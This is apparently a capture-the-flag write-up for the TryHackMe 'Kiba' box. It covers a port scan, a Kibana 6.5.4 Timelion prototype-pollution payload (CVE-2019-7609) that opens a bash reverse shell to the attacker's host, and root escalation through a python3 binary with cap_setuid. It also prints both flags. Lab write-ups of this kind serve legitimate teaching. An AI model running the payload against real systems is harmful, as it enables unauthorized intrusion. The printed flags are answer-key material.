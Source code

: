 # Kiba

**1)** after running a scan we can see that 4 ports are open

command i used to scan all the ports:
```
rustscan $IP
```
results:
```
PORT     STATE SERVICE     REASON
22/tcp   open  ssh         syn-ack ttl 63
80/tcp   open  http        syn-ack ttl 63
5044/tcp open  lxi-evntsvc syn-ack ttl 63
5601/tcp open  esmagent    syn-ack ttl 63
```
**2)** by opening the browser and going to **http://$IP:5601/** you will find a web app


![](https://i.imgur.com/OBJLQNj.png)

**3)** if you click into Management you will find the **version** of the webapp on the top left corner wich is **6.5.4**

![](https://i.imgur.com/uEAsjYA.png)

**4)** after some research i found the [vulnerability](https://www.cvedetails.com/cve/CVE-2019-7609/) **CVE-2019-7609** with 10.0 of CVSS score and
i also found a github [repository](https://github.com/mpgn/CVE-2019-7609) explaining this vulnerability

**5)** click into Timelion section of the website and paste this 
```javascript
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/$LHOST/$LPORT 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
replace $LHOST with your local ip addres and $LPORT with a random local port

**6)** start netcat listening on your local port
```bash
nc -lvp $LPORT
```
**7)** click run and then click **canvas** on the left side menu

**8)** after some seconds your shell should appear

**9)** then get the user flag located in /home/kiba/user.txt
```bash
cat /home/kiba/user.txt
THM{1s_easy_pwn3d_k1bana_w1th_rce}
```
**10)** the box says that root can be obtainied throught linux capabilities, then list all the capabilities with:
```bash
getcap -r /
```
after you ran this command you will see a lot of results but the most important are the latest 4 lines 
```bash
/home/kiba/.hackmeplease/python3 = cap_setuid+ep                                                                                                                                                                                           
/usr/bin/mtr = cap_net_raw+ep                                                                                                                                                                                                              
/usr/bin/traceroute6.iputils = cap_net_raw+ep                                                                                                                                                                                              
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```
wich shows a hidden directory /home/kiba/.hackmeplease and an interesting file wich is /home/kiba/.hackmeplease/python3
then by searching in gtfobins i found this [exploit](https://gtfobins.github.io/gtfobins/python/#capabilities)

**11)** then i ran the exploit
```bash
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
that gave me root shell

**12)** then get root flag
```bash
cat /root/root.txt
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
```

this was my first writeup ^^
